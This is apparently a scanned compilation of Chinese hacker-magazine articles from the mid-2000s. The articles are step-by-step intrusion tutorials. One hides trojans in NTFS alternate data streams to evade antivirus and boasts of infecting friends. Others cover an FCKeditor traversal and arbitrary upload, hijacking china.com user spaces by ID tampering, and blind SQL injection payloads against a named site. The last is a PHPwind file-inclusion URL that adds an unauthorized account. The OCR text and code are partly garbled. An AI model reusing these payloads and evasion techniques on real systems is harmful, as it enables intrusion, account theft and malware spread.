c. 随时注意检查防火墙的状态，许多病毒、黑客软件有关闭防火墙的功能，一旦你发现自己的防

火墙无故被关，就要注意了，赶紧使用最新的杀毒软件查杀。

- 2）安装杀毒软件和病毒防火墙

通常安装了杀毒软件和病毒防火墙之后，可以预防一些已知的病毒。由于病毒种类和形式在不断翻新，而且它的出现往往无法预料，杀毒软件要不断升级才能对付新出现的病毒。

3）及时打补丁

多去微软的站点检测，及时更新微软的SP补丁包，注意微软发布的安全公告，Windows update比较慢，建议不要使用。若英文功底良好，则推荐使用Windows 2000英文版，因为中文版的Bug较多，补丁推出也相对较晚。

4）对系统进行安全配置。

5）勤备份。

#### 后记

这个文章参考了不少文献资料，花费了作者不少的时间和精力，认真地完成了此文，篇幅比较大，但是首次对内网攻击和防范做了一次全面分析。

适合读者：后门爱好者，系统管理员

前置知识 NTFS流基础

### ADS流打造

### 免杀后门


以前看到一篇文章介绍了ADS流，没怎么注意，今天忽然想到用它作木马好像可以不被查杀，就自己试了一下，没想到还成功了，下面看看是怎么做的吧。

在任意一个NTFS分区下输入（一定要是NTFS分区才行），echo XXX>>test.txt:secret.txt（在文件名后加一个冒号再加上任意文件名）。这样可以写入XXX到test.txt这个文件里，但直接打开它并不会看到XXX，而是空的，只有在命令行下输入notepad test.txt:secret.txt（不一定要是绝对路径，相对路径也行）才会看到XXX（XXX是你输入的文字），这就是ADS流在捣鬼。另外在进程里看到的东西也变了。如图1、图2所示。


既然可以在文件中写入文字，那可不可以把程序也写进去呢？我们来试一下。输入type russia.exe>>test.txt:game.exe（注意是type不是echo，russia.exe是一个俄罗斯方块的游戏）。这样就把russia.exe这个文件输入到test.exe这个文件里了。输入start h:\test\test.txt:game.exe（注意一定要输入绝对路径，如果是start test.txt:game.exe就看不到效果了，Windows会提示说参数不正确，另外如果参数里有空格也不行，不知道为什么请高手指点）就可以运行russia.exe了。如图3所示，而不管原来的那个russia.exe还在不在。不管你输入了多少内容到test.txt里，它的大小始终不变，甚至如果你不知道这文件里有


## EXPLOIT ATTACK
栏目编辑：脚本小子 scriptsboy@hacker.com.cn


ADS流的话，你根本看不出什么它和原来那个test.txt有什么差别。如图4所示。这也使ADS流的存在难以检测（连杀毒软件都不知道）。

说了这么多，大家应该想到了吧，假如我们把木马muma.exe写入一个文本文件，再用某种方法执行这个文本文件里的隐藏


在ADS流里的木马muma.exe，这样即使该木马在普通情况下不会被杀毒软件查杀，但在ADS流里，杀毒软件也拿它无可奈何，而现在先进一些的木马都具有端口复用的功能，穿过防火墙也应该不成问题，这样我们就可以打造一个不被查杀的后门（Ha…），虽然ADS流只在NTFS分区下有效，但现在还有多少人在用FAT、FAT32呢？

别高兴得太早，还有一个问题，就是ADS流在网络传输中会不会丢失。下面我们就测试一下。先向test.txt这个文本文件中写入一个比较明显的程序（就用刚才的test.txt吧，我是在本地向虚拟机里传的），再通过网络传到另一台机子，看看ADS流在网络传输中会不会丢失。

- 1. 直接传（用FTP或TFTP）……失败
- 2. 用WinRAR打包再传（不选择“高级 - 保存文件流数据”）……失败。如图5所示。
- 3. 用WinRAR打包再传（选择“高级 - 保存文件流数据”）……成功。如图6所示。

也就是说我们可以用WinRAR将包含ADS流的文件压缩，再传到肉鸡上就不会在传输中丢失ADS流信息了（记得选中“高级 - 保存文件流数据”才行），另外大家一定发现了，虽然test.txt大小为0，


但是rar文件的大小不是0，这就说明ADS流其实是会占用磁盘空间的，只不过Windows没有显示出来罢了。

> 因为文件在ADS流里，有时候要手动改一下木马的启动配置，可以做个批处理来配置，注意start后面一定要跟绝对路径（路径中不能有空格），而且文件一定要在NTFS分区下，另外如果你把包含了ADS流的文件复制到FAT32分区再复制回NTFS分区，也会使ADS流丢失。

好了，方法都告诉大家了，其他的大家就自己发挥吧（我把木马写到游戏的ADS流里，再把编个批处理和游戏打包发给朋友，结果全上当了，哈哈哈哈……）。

几个问题。

1. Q：在文件中写入ADS流后会不会改变文件的MD5编码？
A：有可能，但没有测试过。
2. Q：文件改变后会不会被一些专门检测文件变动的软件检测到？
A：应该不会，因为连Windows都不知道文件改变了，当然也不排除一些比较BT的软件可能会检测出ADS流的存在（比如Lads，可在http://www.heyssoft.de/nt/lads.zip 下载）。

图片在压缩包里，文中涉及到的文件我放在“文件.rar”里了。其中还有一个我自己用ADS流配置的WinShell木马，用start c:\windows\system32\win.txt:win.exe开启，也可以把win.txt和setup.bat复制到肉鸡后运行setup.bat，使木马随系统启动（下毒…）。

木马的密码等情况如下：

```
WinShell Configuration File
-------------------------------
WinShell Server Path : H:\test\WinShell\server.exe
WinShell Server Size : 5936 Bytes
Port                  : [77]
Password              : [123456]
Password Banner       : [Password:]
Registry KeyName      : [WinShell]
Service Name          : [WinUpdata]
Service DisplayName   : [WinUpdata Service]
Service Description   : [Provide WinUpdata Service]
DownExec Flag         : [No]
Url Address           : []
Destination Filename  : []
AutoInstall Flag      : [Yes]
```


### 挑战NB文章系统
#### ——FCKeditor的上传漏洞

适合读者：入侵爱好者，系统管理员
前置知识：无

文/图 寂寞的刺猬


昨天，在一个源码站浏览时，看到NB文章系统发布了NBArticle_200_RC2版，便下载了一套研究。

#### 只读浏览器

本来是想从注入方面入手，但看过几个文件后，不由得放弃了这个想法，因为代码很是严谨，无从入手！
那就再看一下上传方面，不过对这个思路没抱任何希望。NB系统！能那么轻易就让我一个菜鸟找到破绽！在本地搭建了这套NB文章系统，注册了一个用户登录，然后点击“发表文章”。如图1所示。
来到“我要投稿”页面，看一看这里有没有上传的地方？在点了一个又一个的标签后，终于在“正文”的“插入/编辑图像”标签上打开了一个看似上传的窗口，如图2所示。

点击其中的“浏览服务器”又打开一个窗口，如图3所示。

窗口名称为“FCKeditor - Resources Browser”，当时以为是NB自己写的一个上传程序呢！后来才搞明白，这是洋人开发的在线编辑器，用户可以在它设定的目录内新建文件夹或上传文件，也便于管理员的管理。点击“浏览”选择了一个cer格式的文件上传，结果如图4所示。
非法文件！当然不行了，要是行那才叫怪呢！后来又用“WinSock Expert”抓数据包分析，捣鼓了好长时间，也没有成功，只得做罢。

这样的上传程序我是第一次接触，反正也没有别的思路，顺便了解一下这个“FCKeditor”都有什么功能。点击下方的“Create New Folder”弹出一个窗口，“Type the name of the new folder”（输入一个新文件夹名），随便输了一个“aa”，哟！在窗口内真的有了一个aa文件夹，如图5所示。

原来用户就是这样创建自己的文件夹。这时，我忽然有了一个奇怪的想法，如果新建一个名为“../bb”的文件夹，利用Windows对“../”读取的缺陷，是不是就把“bb”文件夹创建到了aa文件夹所在目录的上一层了？试一试！点击“创建文件夹”，在输入框内输入“../bb”，点“确定”完成创建，看了一下文件目录，没有任何变化。是不是没有创建成功？还是创建到上一层目录中了？如果创建成功，那上一层目录名是什么？当前上传的图片又保存到哪儿了？带着这些疑问我打开“搜索”程序，填入我刚才新建的“aa”文件夹名，路径选择NB网站目录，开始搜索。没一会，就找到了这个文件夹，在网站目录下的UserFiles\Image文件夹中，进资源管理器依次展开路径，当打开UserFiles文件夹时，我看到了bb文件夹，它和aa的上级目录image位于同一文件夹UserFiles内，看来可以利用“../”来创建文件夹，但如何在“FCKeditor”看到所创建的文件夹呢？

看着“FCKeditor”窗口发一会呆，才想起这个窗口隐藏了网址，还没有了解这个上传页面的地址呢！按F11查看窗口地址，是“http://127.0.0.1/nb2/editor/fck_editor/editor/filemanager/browser/default/browser.html”

```
http://127.0.0.1/nb2/editor/fck_editor/editor/filemanager/browser/default/browser.html
```

Type=Image& Connector=connectors/asp/connector.asp”。

这么长啊！看了一会也有些明白了，虽然使用的是Browser.html，但提交的语法和ASP一样，“？”后的应该是提交值，有两个，一个是Type，提交的值是Image；另一个是Connector，提交的值是Connectors/asp/connector.asp。那个Connector提交的Asp文件好像不能利用，但那个Type提交的Image却看着有些面熟，在哪里？在那里见过你……

想起来了，在上传图片的“FCKeditor”窗口左侧Resource Type选项中，就有一个Image，可能就是它！如果把Image改为bb，是不是可以看到bb文件夹中的内容？先在bb文件夹内新建了一个abcd.txt文本文件，然后将地址栏中的Image改为bb后回车。没看到Txt文件！是不是窗口最大化的原因？点还原按钮，如图6所示。


在其中显示出了abcd.txt文件名及文件大小，测试成功，找到了“FCKeditor”的一个缺口。“../”又在我脑中闪烁，如果把bb改为“../”，是不是就可以看到上一层目录中的内容了？在原“FCKeditor”窗口中用F11来回切换窗口，觉得太麻烦，就把网址复制下来，重新开启一个IE，粘贴到地址栏内，再将其中的bb改为../，回车，想不到还真能运行，如图7所示。


跳转到了NB文章系统所在的目录了。又加了一个../，回车后目录又向上跳了一级，再加../就再向上跳一级，最后一直跳到这个盘的根目录下。

测试到这里，我觉得“FCKeditor”编辑器完全可以做一个功能简单的文件只读浏览器，使用“../”查看当前盘内所有文件夹及文件的名称和容量。假设某个网站和NB文章系统同在一个服务器的盘符内，那么使用“FCKeditor”这个只读浏览器不就可以看到某个网站数据库的名称了？比暴库还要来得直接！

#### 无限上传

可惜只能上传图片格式文件，要是能上传asp、cer等格式文件该多好！这样想着，无意间选择了一个cer文件上传，竟然没有提示错误！感到很惊奇，看了一下文件目录中的内容，如图8所示。


那个Newmm.cer竟然传上去了！在看到文件传上去的那一刻，我激动得简直要跳了起来，想不到我误打误撞的找到了NB文章管理系统的漏洞，这么好的手气，应该去买彩票！
在经过反复摸索之后，终于摸清了“FCKeditor”上传漏洞的利用方法，步骤如下：

- 1. 不用注册用户，直接用IE打开网址“http://127.0.0.1/nb2/editor/fck_editor/editor/filemanager/browser/default/browser.html?Type=Image& Connector=connectors/asp/connector.asp”，/editor之前是NB文章系统的网址。
- 2. 将Image改为../后回车，跳转到NB文章系统的网站根目录下，就可以上传文件了，可直接上传至网站根目录中，也可以打开其中的一个文件夹后再上传。而漏洞形成的原因在于，只要将Type的提交值变化一下，就取消了上传文件格式限制，上传asp、asa、cer等格式文件随心所欲。

再看一下NB文章系统的更新历史，从EliteArticle 2.0 Beta 1版起增加对上传图片的管理，迄今已更新了4个版本，到最新的NBArticle_200_RC2版，都存在“FCKeditor”上传漏洞，就连NB文章系统的官方网站也没有幸免。在写稿之前，已发邮件通知NB管理员，希望能尽快修补此漏洞。

#### 再测“FCKeditor”最新版

今天在整理NB文章系统的这个上传漏洞时，公正的讲，应该是“FCKeditor”的上传漏洞，NB属于用人不当嘛！呵呵！既然主要原因在“FCKeditor”上，那就再多了解一些它的信息。在百度中查找“FCKeditor”的资料时发现，其也有了最新版本，于是又下了一套FCKeditor v2.0 多国语言版，将其覆盖NB文章系统中的原版本，然后稍做修改，开始测试。

新版本果然有了改进，不仅功能增加了，而且还过滤了“..”，不能再把“FCKeditor”当浏览器用了！但这样做，“FCKeditor”就没有上传漏洞了？
在“FCKeditor”中，程序会按管理员在源码中的设置建立一个文件夹，默认为“UserFiles”，用于存放用户创建的文字和上传的文件。而默认情况下，程序根据用户选择上传模式的不同，自动打开所对应的文件夹，如上传图片，则自动打开UserFiles中的Image文件夹，上传Flash则打开Flash文件夹，上传文件就打开File文件夹。在某个上传模式内，用户所看到的只是程序所打开该模式内文件夹的内容，看不到其他文件夹中的内容。

了解了一些“FCKeditor”的文件夹设置后，下面就来

## EXPLOIT ATTACK
> 栏目编辑 > 脚本小子 > scriptsboy@hacker.com.cn

小小的突破一下。在“FCKeditor”最新版本中，虽然不能使用“../”来浏览文件了，但它却无法对“/”和“\”加以限制，虽然在connector.asp中也有“/”和“\”做了一些处理，但仍可以利用“/”或“\”返回到上一级目录 如当前打开的是上传图片文件夹Image，只要将Type值Image改为/执行，就可以从Image文件夹内跳到UserFiles文件夹中了。
虽然不能浏览更多的文件，但这一跳转，却突破了上传格式的限制，也是上传文件的关键。最新版“FCKeditor”的上传步骤如下。
开启一个IE新窗口，输入网址:“http://127.0.0.1/nb2/editor/fck_editor/editor/filemanager/browser/default/browser.html?Type=Image& Connector=connectors/asp/connector.asp”执行。
然后将地址栏中Type的值Image改为/，执行后如图9所示。
目录从Image跳转到Userfiles中了，(其实Type还有一个好玩的缺陷，就是将Type值Image改为什么就创建什么


名字的文件夹)。现在目录已发生了变化，突破了上传限制，在当前userfiles文件夹内或其下级的任一文件夹内，包括Image文件夹内，都可以上传任意格式的文件了。
“FCKeditor”确实是一款不错的在线编辑器，它不仅提供ASP版本，还提供了php、asp.net、perl等环境内运行的版本，因为环境原因，我只测试了ASP版本的，不知道其他环境下的版本是否也存在这样的漏洞，还是留给大家去测试吧！

适合读者：入侵爱好者，中华网空间用户
前置知识：无

### 用中华网BBS拿百万个空间

文/图 活死人

这事对于高手也许无聊，对菜鸟们也许就是很刺激的事了，想体验的菜鸟们，或者信心不足的也可尝试一下当hacker的感觉。说些废话，此事起于前段时间，本人想上网挂马，也抓些肉鸡回来，可是需要空间，于是乎，就去申请，谁知……


当时，我四处搜索空间，发现http://home4u.china.com网上有免费的个人空间。就去申请，当填写完信息后，点提交，出现了一个页面，如图1所示。

这样的页面好多站上都有，我不只见到一次了。由于想省事，就把这个页面的URL记下了，就是http://61.151.243.222/UserSpaceRowAddSuccess.jsp?ID=1247907，存到信箱中，然后点登录，创建网页，谁知上传文件需要审核，完后才可以使用，这不是对我们这些手生泼冷水吗？忍不住了！准备好他的其他站的WebShell来“玩玩”。

猛然间，想到这个URL是开通账户时留下的，会不会其他人开通账户也是同样的URL呢？用其他ID能不能重新开通呢？实验一下，将我记录的URL中的ID=1247907改一下，id=247906，也可随意改，按下Enter将如何？哈哈，看下面的图，出来的是别人注册的登录画面，如图2所示。

进去看看行不行，能打开，浏览一下网站，做得还不错。可是密码还没有到手？这好办！找个“超级密码查看器”，密码不就出来了吗？进入后，更改注册信箱、密码。唉！这个网站就成我的了。真惭愧呀，盗世欺名。不过，里面也有好多好的东东！如图3所示。
并不是我很坏去搞破坏，而是说，这样的漏洞太多了，稍微留心的就可以发现很多，也不需要什么技术！用这样的简单方法，在不知不觉中，中华网上所有人的空间就成为囊中之物了。其实防范还是有的。1. 对个人来说，就是申请后马上更改密码。2. 网站方面，更改注册的模式，对页面存期做限制。


www.hacker.com.cn
2008精华本 下册

### 文本论坛就安全？
#### ——CTB文本论坛新漏洞曝光

文/图 Cookie

适合读者：脚本攻击爱好者、站长
前置知识：ASP代码阅读

最近没有事情可做，于是对CTB Powered by China Text Bulletin v1.74做了一些分析。在原来查阅CTB论坛新漏洞时，发现它的版本是1.3，才几个月的时间就已经到了1.7.4，不知道是不是版本越高安全性越好？它以前漏洞的危险性很高，可以直接加管理员，主要是对权限没有检查，导致任何人都能访问有漏洞的网页，并且达到添加管理员的目的。这恐怕是最危险的一个漏洞了。

CTB文本论坛是实易数码做的，客户访问论坛时通过主页的Index.php调用其他功能模块的，其他模块就是以MODS这个参数传递给Index.php的，我看了注册和后台管理的代码，总体看来不错，代码写的合理、简练，不过还是有点小小的问题。我在看修改个人信息这段代码时偶尔看到里面有关找回论坛密码的功能，仔细看了看，大体的找回过程是这样的：在你登录的时候只填你的用户名，然后在它的下面有找回密码的项目，单击即可。如图1所示。然后就到了具体处理用户信息的地方，如图2所示。填好昵称单击确定就可以把自己的密码发到你指定的信箱里了，这个过程是很正常的，但是当我看见Member.php这个文件的时候发现了问题。下面是有关的代码：


```php
function getPassWord() {
    $this->BAN = '' ; // 取回用户密码
    $header = $this->header("取回用户密码");
    eval("\"$this->outPut(\"\".$this->getTemplate('getPassWord')."\");\"");

}//end func

/*
 * 执行发送密码操作
 *2002-8-26
 */
function sentPassWord() {
    if (!($this->input['uLogin'] || $this->input['uname'])) {
        $this->showMsg("请您将资料填写完整");
    }
    $this->file = $this->set['dataPath']."/users/list.php";
```

```php
$userInfo= $this->select_line(2, $this->input['uLogin']);
if (!($userInfo[1]) {
    $this->showMsg("不存在此用户");
}

$this->file = $this->set['dataPath']."/users/".$userInfo[1].
".php";
$thisMember = $this->get();
if($this->input['uname'] != $thisMember[3]){
    $this->showMsg("登录id和昵称不匹配");
}

$newPass = rand(100000,999999);
// 生成了新的密码
$userid = $thisMember[1];
$this->file = $this->set['dataPath']."/users/list.php";
$pass = $this->select_line(1, $userid);
$pass[3] = md5($newPass);    //对新密码MD5加密
$this->update(2, $userid, $pass);
// 并且对原密码更新
@chmod($this->file,0777);
// 以下是将密码发到你指定的信箱里
$subject = "您在".$this->set['ctbTitle']."的密码";
$message = $this->input['uname'].": 您在 ".$this->set['ctbTitle']." 的密码为：".$newPass."，请牢记！\n\n";
$msg = " 亲爱的".$this->input['uname']." 您好！\n\n".
$message;
$emailFrom = $this->set['ctbTitle']."的邮件<"..$this->set['emailAdmin'].">";
$this->sendSmallEmail($thisMember[5], $subject, $msg, "text", $emailFrom); //$this->set['ctbTitle'],
$this->showMsg("您已经成功将密码发送到您的信箱"."\nindex.php");
```

这里它并没有将你原先的密码发到你的信箱里，而是用随机函数rand(100000,900000)又生成了一个新的6位数字的新密码。呵呵，关键就在这里，因为密码是6位的数字，而且是100000~900000之间。我算了一下生成的密码文档的大小为8MB，而且对单个固定的用户名来说很容易暴力破解这个密码的，因为我们的这个密码文档一定包括这个密码，所以在利用的时候我要先将管理员的密码更新一下，使它成为我们密码文档中的元素，然后启动暴力破解的程序，马上就可以找到管理员的密码了！随后我测试网上论坛的时候发现，在登录的时候没有限制登录的最大次数，这个是我们暴力破解的必要条件，如果暴力破解的程序是多线程的，我建议是4个线程，这样会比较适合。

这个漏洞其实很容易修补，可以选择生成的密码构成，或者更厉害点的直接加强取回密码的验证，让别人不能轻易地取回密码，这样就能防范攻击者了。


## SCRIPT ATTACK

> 栏目编辑:脚本小子>scriptboy@hacker.com.cn

脚本小子: 溯雪是小榕在2000年10月发布的一个基于Web的探测器,主要用于对一些网页上的登录入口进行暴力破解,原来曾经一度是大家破解邮箱的好工具。由于现在网页一般都采取了数字验证码的方法,溯雪便失去了往日的风采。但是当我们将它使用在SQL Injection中时,却会收到意想不到的效果。只能说经典的工具永远经典啊(这句话好像有点绕口令的意味)。

适合读者:脚本入侵爱好者,黑客迷

前置知识:溯雪基本使用方法

### 溯雪在SQL Injection中的应用

看到这个题目相信大家都会觉得很奇怪吧?溯雪竟然还没被淘汰,而且和现在最新的脚本攻击又结合到一起?是不是很难让人相信?虽然很难相信,可这毕竟是真的。在这里就不吊大家胃口了,正式开始!

先介绍一下溯雪在SQL Injection中的优势。

- ◆它是一个免费产品,对穷穷的小菜们来说是最受欢迎的。
- ◆支持Proxy,包括需要身份认证的Proxy,这对隐藏自己是非常有好处的。
- ◆探测过程更加稳定,不会出现假死现象。
- ◆Favorites和IE集成,同步更新。

我们接着来分析它在SQL Injection中应用的可行性。SQL Injection是指注入我们提交的需要查询的作为过滤的变量,从而实现跨表、跨库查询,一般我们是注入提交的表单项实现,这个方法不会在服务器上留下任何日志,安全性很高,尤其在注入文章搜索等变量的时候,有着其它工具所不可超越的优点,因为我们可以自定义注入的内容,这样就有了更多的灵活性,而且网上也没有自动注入站内搜索变量的相关工具。

鉴于它的使用灵活性,我先以国内知名的黑客软件下载站 小凤居网站(http://www.chinesehack.org)为目标进行注入测试。首先来到这个页面:

http://www.chinesehack.org/member/getpass.asp

这里是会员找回密码的地方,我们输入' " 确定,就会发生Http500服务器内部错误,初步判断这里存在SQL Injection的漏洞。下面就是手工猜解表名和字段名了,由于这里服务器对变量的特殊处理,我们用其他的工具,如NBSI2和WED等都是无法猜解的,即使我们构造提交地址如 http://www.chinesehack.org/member/getpass.asp?username=1也是无法成功的,那究竟怎么办呢?

我们先猜解表名,在输入框里输入:

```
1' or exists(select * from admin) and '1
```

当我们得到"密码恢复第二步: 请输入你的密码提示问题答案"的提示的时候,说明存在Admin这个字段,如果我们输入'1' or exists(select * from users) and '1'返回发生Http500服务器内部错误,说明不存在Users这个表。根据这样的方法,很容易就得到Admin表中的

User和Pass这两个字段。

好了,关键的地方到了,我们现在可以开始猜解账号和密码了。由于没有现成的工具,我们手工注入,猜解详细账户密码需要花费很长的时间,我们就使用溯雪来帮我们吧!首先我们需要一个包含注入语句的字典,我们可以用C语言直接编写一个生成注入语句的程序。程序的源码如下:

```c
#include<stdio.h>
#include<string.h>
#include<conio.h>
main()
{
FILE *fp;
char string1[100];
char string2[100];
int i,max,min;
printf("enter inject words:\n");
gets(string1);
printf("enter the min number:");
scanf("%d",&min);
printf("enter the max number:");
scanf("%d",&max);
getchat();
printf("enter the last word:\n");
gets(string2);
fp=fopen("injection.txt","w");
if(fp==NULL){printf("can not open injection.txt");exit(0);}
for(i=min;i<=max;i++)
{
fprintf(fp,"%s%s",string1);
fprintf(fp,"%d",i);
fprintf(fp,"%s",string2);
fputc('\n',fp);
}
close(fp);
printf("make successful\npress any key to exit");getch();
}
```

把它编译连接成可执行文件,先用此工具生成一个注入字典,字典文件为此工具当前目录下生成inject.txt的内容,如下:


www.hacker.com.cn

2006精华本 下册

## SCRIPT ATTACK

》栏目编辑/脚本小子>scriptboy@hacker.com.cn

```
1' or (select top 1 asc(mid(user,1,1)) from Admin)=32 and '1
1' or (select top 1 asc(mid(user,1,1)) from Admin)=33 and '1
1' or (select top 1 asc(mid(user,1,1)) from Admin)=34 and '1
......
1' or (select top 1 asc(mid(user,1,1)) from Admin)=122 and '1
```

其中ASCII码的范围我们可以自定义。

好了，字典准备好了，我们打开溯雪，进入http://www.chinesehack.org/member/getpass.asp页面，然后提取表单，双击左下方的Username，在弹出的对话框中选择Directory，填上刚才生成的字典文件inject.txt，然后确定。选择RUN菜单中的Start，填入“没有该用户名，请注册新用户！”这个错误标志，然后溯雪就开始运行了（如果不会使用溯雪的朋友可以到http://www.netxeyes.com下载详细的使用帮助）。

很快我们就得到用户名的第一个字符ASCII码为108，也就是l，这样用户名第一个字符我们就得到了，比手工快多了吧？同理，我们可以得到剩下的字符，我得到的是lilitou，大家可以参考一下自己猜出来的结果是不是一样的。接着就是对密码的破解了，原理一样，由于他的密码是MD5加密的，我没有继续破下去，大家得到也没有多大的用处，我这里只是说明这个方法而已。

下面我说一下对站内搜索变量的注入方法，首先在查询框中输入“'”，提交看有没有注入漏洞，一般发生服务器内部错误或者数据库报错等都表明存在注入漏洞，我们这样构造注入语句，先输入常用的字符让它查询到一些信息，比如输入1，然后开始注入：

```
1%' and exists(select * from admin) and '%1
```

返回刚才查询到的信息表明存在此表，同理：

```
1%' and exists(select username from admin) and '%1
```

猜解字段，剩下的工作交给溯雪摆平。其实溯雪强大的功能在于它对返回信息的判断，它可以通过判断返回的HTTP状态码，如200、500、404等进行区别，而且能够解决一些其他软件根本无法注入的变量，如Type=“hidden”的变量，更重要的是我们有着更大的灵活性去构造注入语句。

另外，我们可以使用溯雪来注入通过Trim()函数过滤空格的变量，方法是生成字典时用TAB键来代替空格，或者将生成的字典用UltraEdit打开选Hex编辑，查找20替换成0A（ASCII码为10代表tab），用这个字典即可成功注入（我在网上下载的动力文章Access版本v3.5好像只是过滤掉了空格）。

溯雪其实还有许多其他的用法，不愧是经典黑软，长盛不衰，大家发挥想象力去开发它的其他功能吧！

适合读者：脚本攻击爱好者、站长、脚本程序员
前置知识 PHP基本语法

### 完全控制不让注册的PHPwind论坛

文/图 雨林

好久没有聊QQ了，前几天一打开QQ便被一网友缠住，要我帮他破解一个网站的会员密码。虽然我平时看黑客防还是比较多的，但自己独立操作可还没有几次。心里一阵恐慌想他咋会找我呢？可能是平时牛吹得太大了？不管怎么样，不能自己丢自己的脸啊，硬着头皮咱也要上！

被告之网址是www.xxxx.com，打开浏览器一看，这不就是一个PHPwind搭建的社区吗？注册会员对任何人来说都不是小菜一碟吗？心中窃喜，操起鼠标直向注册二字奔去，只听“滴答”两声我傻眼了：屏幕显示“对不起，目前论坛禁止新用户注册，请返回……”（如图1所示）。看来一切并不是我想象的那么简单，要想不丢脸我必须认真对待了。


先看看有没有PHP注入漏洞。提交http://www.xxxx.com/bbs/thread.php?fid=10 and 1=2提交后发现论坛板块标题没有显示出来，再输入http://www.xxxx.com/bbs/thread.php?fid=10 and 1=1提交后论坛板块标题仍然没有显示出来。一般有PHP注入漏洞的话，添加“ and 1=2”会出现空内容，添加“ and 1=1”内容不变。看来这里没有PHP注入漏洞，只有下载源程序来看看了。

打开源程序Thread.php，发现论坛板块标题查询语句是

```
$foruminfo=$db->get_one("SELECT * FROM pw_forums WHERE fid='$fid'");
```

原来我在浏览器构造的是一个非法ID，以至于论坛板块标题没有显示出来。俗话说胜不骄败不馁，我也坚信失败乃成功之母，继续埋头看源代码，看看有什么可以利用的地方。在看了N小时后，我在Job.php文件里看到了希望，代码如下：

```php
require_once('./global.php');
if($previewjob=='preview'){
```

www.hacker.com.cn
2008精华奉献本 下册

## SCRIPT ATTACK

> 栏目编辑/脚本小子:scriptboy@hacker.com.cn

```php
require_once('./require/bbs_code.php');
require_once('./header.php');
if (empty($skin)) $skin=$db_defaultstyle;
if (file_exists(R_P.'data/style/'.$skin.php')){
    include_once('data/style/'.$skin.php');
// 看来这里是希望所在了！
}else{
    include_once(R_P.'data/style/wind.php');
}
$msg_guide=headguide("帖子预览");
$preate=Char_cv($preate);
$preate=str_replace("\n","\n<br>",$preate);
$preate=convert($preate,$db_windpost);
$preview_info="<tr><TD class=head>帖子预览</td></tr><tr><td bgcolor=$forumcolore>$preate</td></tr>";
require_once PrintEot('preview');footer();
} elseif($rd_previous==1){
    if($fid || $tid){
        require_once(require/url_error.php);
        if($goto=="previous"){
            $rs = $db->get_one("SELECT lastpost FROM pw_threads WHERE tid='$tid'");
            $lastpost = $rs['lastpost'];
            $next = $db->get_one("SELECT tid,postdate FROM pw_threads WHERE fid='$fid' AND lastpost>'$lastpost' ORDER BY lastpost ASC LIMIT 0, 1");
            if($next) {
                $headurl="read.php?tid=$next[tid]";
                header("Location: $headurl");exit;
            } else {
                header("Location: read.php?tid=$tid");exit;
            }
        } elseif($goto=="next"){
            $rs = $db->get_one("SELECT lastpost FROM pw_threads WHERE tid='$tid'");
            $lastpost = $rs['lastpost'];
            $last = $db->get_one("SELECT tid,postdate FROM pw_threads WHERE fid='$fid' AND lastpost<'$lastpost' ORDER BY lastpost DESC LIMIT 0, 1");
            if($last) {
                $headurl="read.php?tid=$last[tid]";
                header("Location: $headurl");exit;
            } else {
                header("Location: read.php?tid=$tid");exit;
            }
        }
    }
}
// 后略……
```

看到我标注的地方了吗？“include_once('data/style/$skin.php');”这条语句。这里的$skin变量没有赋值，只是判断其是否为空，若为空则赋值为$db_defaultstyle,那么只要我们构造URL传入一个不为空的$skin变量,就可以使Job.php包含我们想要的文件来执行它了。如果我们在文件名前加上路径，就可以对任意文件进行引用执行了（哈哈，我厉害吧？！）。那么试一下执行Login.php文件,文件路径位于根目录,文件名Login,那么路径就是“skin=../../login”了,构造URL:
`http://www.xxxx.com/bbs/job.php?skin=../../login&previewjob=preview`
提交,测试成功！那么怎样添加用户呢,这才是我的最终目的。我想在前台是不可能的了,看看后台吧。

在本机装一个PHPwind,然后进入后台发现会员管理可以添加新用户(如图2 所示)。


打开原文件看看添加用户的代码,说不定能发现些什么奇特的东西,代码如下:

```php
if($action=='addnew'){
if(!$groupid)$groupid='-1';
if(!$username || !$password || !$email){
    $msg="用户名,密码或email为空";
} else{
    $username=trim($username);
    if(strlen($username)>14){
        $msg='用户名太长';
    } elseif(strpos($username,"'")!==false || strpos($username,';')!==false || strpos($username,')')!==false || strpos($username,'=')===false || strpos($username,"'")===false || strpos($username,'*')!==false || strpos($username,"'")!==false || strpos($username,"'")!==false || strpos($username,"'")!==false || strpos($username,"<")!==false || strpos($username,'>')!==false){
        $msg="用户名包含不可接受字符";
    }
    if (strpos($password,"\r")!==false || strpos($password,"\t")!==false || strpos($password,"\n")!==false || strpos($password,"<")!==false || strpos($password,'>')!==false){
        $msg="密码包含不可接受字符";
    } else {
        $password=md5($password);
    }
    if ($email && !ereg("^[-a-zA-Z0-9_]+@([0-9A-Za-z][0-9A-Za-z-]+\.)+[A-Za-z]{2,3}$",$email)){
        $msg="email格式错误";
    } else{
        $email=$email;
    }
}
$rs = $db->get_one("SELECT COUNT(*) AS count FROM pw_members WHERE username='$username'");
if($rs['count']>0){
    $msg="该用户名已经被注册了,请返回重新填写.";
}
if($groupid=='3'&&($admin_name!=$manager)){
    $msg='只有超管才能添加管理员';
}
}
} elseif($action=='admindmsg'){
$msg && admindmsg($msg);
} elseif($action=='admindmsg'){
$rs = $db->get_one("SELECT COUNT(*) AS count FROM pw_members WHERE username='$username'");
if($rs['count']>0){
    $msg="该用户名已经被注册了,请返回重新填写.";
}
if($groupid=='3'&&($admin_name!=$manager)){
    $msg='只有超管才能添加管理员';
}
}
$msg && admindmsg($msg);
$rs = $db->get_one("SELECT COUNT(*) AS count FROM pw_members WHERE username='$username'");
if($rs['count']>0){
    $msg="该用户名已经被注册了,请返回重新填写.";
}
$groupid = key($groupid);
$memberid=key($memberid);
$db->update("INSERT INTO pw_members(username,password,email,groupid,memberid,regdate,lastvisit,thisvisit) VALUES('$username','$password','$email','$groupid','$memberid'");
```

黑客防线 2006 精华奉献本 下册

www.hacker.com.cn


## SCRIPT ATTACK

栏目编辑：脚本小子 scriptboy@hacker.com.cn

```php
$timestamp', '$timestamp', '$timestamp'));
$db->update("UPDATE pw_bbsinfo SET newmember='$username',totalmember=totalmember+1 WHERE id='1'");
adminmsg('添加用户完成');
}
```

仔细看看，这里没有权限验证吗？看来可行。用户名、密码、邮箱、用户组的字段分别为username、password、email、groupid，隐藏字段action=addnew，提交表单为setuser.php。那么只要我们根据上面找到的Skin，构造如下URL：

```
http://www.xxxx.com/bbs/job.php?skin=../../admin/setuser&previewjob=preview&username=aaaa&password=12345&email=aaaa@163.com&action=addnew
```

提交后还真的添加了一个用户名为aaaa，密码为12345的用户，成功！

